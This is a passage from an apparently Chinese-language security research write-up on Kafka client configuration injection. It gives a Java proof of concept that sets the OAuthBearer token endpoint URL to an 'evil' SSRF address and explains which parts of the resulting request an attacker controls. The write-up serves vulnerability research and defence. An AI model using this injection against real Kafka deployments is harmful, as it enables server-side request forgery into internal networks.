 ```java
public class ProducerConfigInject {
    public static void main(String[] args) {
        // kafkaConfig 外部可控
        Map<String,String> kafkaConfig = new HashMap<>();
        kafkaConfig.put("bootstrap.servers","127.0.0.1:9092");
        kafkaConfig.put("security.protocol","SASL_SSL");
        kafkaConfig.put("sasl.oauthbearer.token.endpoint.url","http://127.0.0.1:8888/ssrf/evil/url"); // SSRF URL
        kafkaConfig.put("sasl.login.callback.handler.class","org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler");
        kafkaConfig.put("sasl.mechanism","OAUTHBEARER");
        kafkaConfig.put("sasl.jaas.config","org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required clientId='enokiy' scope='enokiy' clientSecret='enokiy';");

        Map<String,Object> configs = new HashMap<>(16);
        configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.putAll(kafkaConfig);

        //Create the Kafka producer
        KafkaProducer<String, String> producer = new KafkaProducer<>(configs);
        producer.close();
    }
}
```

![img.png](/assets/images/kafka-config-injection/b356qadf.png)

可以看到，kafka配置项可控时可进行SSRF攻击，但是只能发送POST请求，并且消息头只有Authrization头可控，body中只有scope参数可控。

在`KafkaProducer`的构造函数中，会基于properties初始化`ProducerConfig`的实例config，在`newSender(LogContext logContext, KafkaClient kafkaClient, ProducerMetadata metadata)`中创建ChannelBuilder:
